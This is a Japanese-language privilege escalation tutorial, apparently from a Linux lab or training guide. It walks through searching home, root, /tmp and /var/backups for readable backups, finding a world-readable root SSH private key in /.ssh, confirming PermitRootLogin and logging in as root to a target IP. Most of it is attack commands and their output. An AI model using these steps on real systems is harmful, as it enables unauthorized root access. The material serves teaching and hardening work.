 重要なファイルや機密性の高いファイルに対して正しいパーミッションが与えられているマシンでも、ユーザーが安全でないバックアップを作成している可能性があります。   
ファイルシステムで読み取り可能なバックアップファイルを探すことは常に価値があります。一般的な場所としては、ユーザーのホームディレクトリ、/（ルート）ディレクトリ、/tmp、および/var/backupsがあります。  
# Privilege Escalation
1. よくある場所にある面白いファイル、特に隠しファイルを探してみてください。
```
$ ls -la /home/user
$ ls -la /
$ ls -la /tmp
$ ls -la /var/backups
```
2. なお、システムルートには隠れた.sshディレクトリが存在します。
```
$ ls -la /
drwxr-xr-x 2 root root 4096 Aug 24 18:57 .ssh
```
3. このディレクトリには、root_key という誰でも読み取り可能なファイルがあります。
```
$ ls -l /.ssh
total 4
-rw-r--r-- 1 root root 1679 Aug 24 18:57 root_key
```
4. このファイルをさらに調べると、これはSSHの秘密鍵であることがわかります。ファイルの名前と所有者から、この鍵はrootユーザーのものであることがわかります。
```
$ head -n 1 /.ssh/root_key
-----BEGIN RSA PRIVATE KEY-----
```
5. このキーを使ってみる前に、SSHでrootログインが可能かどうかまで確認しておきましょう。
```
$ grep PermitRootLogin /etc/ssh/sshd_config
PermitRootLogin yes
```
6. キーをローカルマシンにコピーし、正しいパーミッションを与えてください（そうしないとSSHがそれを使うことを拒否します）。
```
# chmod 600 root_key
```
7. このキーを使って、rootアカウントでターゲットにSSH接続します。
```
# ssh -i root_key root@192.168.1.25
```
